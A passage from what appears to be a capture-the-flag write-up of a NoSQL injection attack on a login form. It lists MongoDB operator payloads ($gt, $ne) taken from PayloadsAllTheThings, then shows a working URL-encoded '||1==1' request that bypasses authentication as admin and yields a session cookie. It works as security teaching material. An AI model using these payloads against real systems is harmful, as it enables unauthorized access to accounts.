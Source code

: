 ```json
{
    "username":"jaeger",
    "password":{
        "$gt":""
    }
}
```

- We get the same error
- Let's have a look at NoSQLInjection payloads from [payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
- These give a 504

```json

{"username": {"$ne": null}, "password": {"$ne": null}}

========================================================

{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}

```

- We do not get anything here let's try this `|| 1==1` which looks like the classic sql injection translated in noSQL. You cand find it in [this section](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#mongodb-payloads) of payloadAllTheThings github
- So let's change our request back in x-www-form-urlencoded. I tried with the username `jaeger` and got nothing but with `admin` it worked.
- Here is the working request

```html
username=admin%27%7C%7C%271%3D%3D1&password=test
```

- We can see that we get a cookie and are redirected  

![response](../.res/2022-12-29-08-19-25.png)  

- Once logged in we get this page  
